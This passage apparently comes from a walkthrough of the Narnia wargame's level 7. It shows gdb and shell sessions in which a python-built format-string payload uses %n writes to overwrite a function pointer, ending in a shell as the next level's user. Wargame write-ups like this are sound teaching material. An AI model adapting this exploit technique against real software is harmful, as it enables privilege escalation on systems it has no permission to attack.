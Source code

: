 ```
(gdb) p 0x08 - 0x04
$9 = 4
```
```
(gdb) run $(python -c 'print "A" * 8 + "\x5c\xd6\xff\xff" + "\x5d\xd6\xff\xff" + "\x5e\xd6\xff\xff" + "\x5f\xd6\xff\xff" + "%238x%8$n" + "%129x%9$n" + "%125x%10$n" + "%04x%11$n"')
Breakpoint 1, 0x08048685 in vuln ()
(gdb) x/20xw $esp
0xffffd640:	0xffffd660	0x00000080	0xffffd8d5	0x08048238
0xffffd650:	0xffffd6b8	0xf7ffda94	0x00000000	0x08048706
0xffffd660:	0x41000002	0x41414141	0xffffd65c	0xffffd65d
0xffffd670:	0xffffd65e	0xffffd65f	0x20202020	0x20202020
0xffffd680:	0x20202020	0x20202020	0x20202020	0x20202020
(gdb) cont
Continuing.
Way to go!!!!$ 
```
And there we have it. Now to run the program outside of gdb. As gdb changes the location of the stack, we'll have to do some guesswork. After a little bit of fuzzing, we get our shell:
```
narnia7@narnia:/narnia$ /narnia/narnia7 $(python -c 'print "A" * 8 + "\x3c\xd6\xff\xff" + "\x3d\xd6\xff\xff" + "\x3e\xd6\xff\xff" + "\x3f\xd6\xff\xff" + "%238x%8$n" + "%129x%9$n" + "%125x%10$n" + "%04x%11$n"')
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd63c)
I guess you want to come to the hackedfunction...
Way to go!!!!$ whoami
narnia8
$ 
```

